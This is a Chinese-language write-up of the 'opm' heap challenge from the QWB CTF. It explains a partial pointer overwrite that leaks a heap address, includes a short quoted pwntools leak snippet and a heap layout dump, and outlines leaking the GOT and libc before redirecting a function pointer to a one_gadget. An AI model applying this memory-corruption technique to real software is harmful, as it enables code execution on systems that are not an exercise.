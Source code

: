 # qwb ctf  opm writeup

### 废话

鱼师傅说这是道堆的拼图游戏，做着做着感觉自己智商-1。
但是我不想每次都-1，不然把仅存的0x1都减完了，还是仔细看看吧。

### 做题时想法和看到wp后

```c
struct{
void *func
void *name = malloc(namelen);
    namelen = strlen;
    punches;
}
```
```c
a
b
c    ---->  a
d    ---->  b
     ---->  c
     ---->  d
```
大概率是贫穷限制了我的想象力吧。因为我们只能打印出b和d的内容，然后b和d都是在堆上的，堆上有什么？堆上只有堆的地址、还有一个函数地址。但是显然不可能打印出函数地址。于是我就想构造如上图的关系，但abc、和d是分开写的，于是上图的关系是不可能实现了。想破脑袋也不知道怎么回事。

来看看wp：

```c
newrole('a'*0x50, str(233))
newrole('a'*0x80 + chr(0x30), str(233))
newrole('a'*0x80, str(233).ljust(0x80,'c') + chr(0x30))
io.recvuntil('<'+'a'*0x28)
heap_addr = u64(io.recvuntil('>')[:-1].ljust(8, chr(0))) - 0x1A0
log.success("heap address:"+hex(heap_addr))
```
看完这几行代码，确实对自己的智商感到忧愁，看看堆布局：

```c
addr                prev      size      status            fd                bk
0x55aa83114000      0x0       0x11c10    Used                None              None
0x55aa83125c10      0x0       0x30       Used                None              None
0x55aa83125c40      0x0       0x60       Used                None              None
0x55aa83125ca0      0x0       0x30       Used                None              None
0x55aa83125cd0      0x0       0x90       Used                None              None
0x55aa83125d60      0x30      0x30       Used                None              None
0x55aa83125d90      0x0       0x90       Used                None              None
```
可以看到第3个chunk已经进1，此时覆写最后一个字节的话就会让结构体的abc落入前面的buf区，就可以打印出来。

但是我们这时候已经没办法打印第2次的结构体了，怎么办，先把第2次的abc存起来，到第3次才打印。

这样就可以泄露第3次申请的buf的堆地址。


### 接下来
泄露了堆地址后要想办法泄露libc。
但是没有堆上没有libc，还有一个函数地址，泄露了函数地址就可以泄露got表地址，再通过got表去泄露libc。

怎么泄露函数地址，想想0x0030处还存着我们的fake struct。想办法把d写在b上，于是在0x0020的地方就可以。

### libc
有了函数地址，就可以算出got表地址，再如法炮制打印出got表内容就泄露了libc。泄露了libc把函数指针改成one_gadget即可。

### 总结

感觉这种题太靠脑洞了，智商-10。


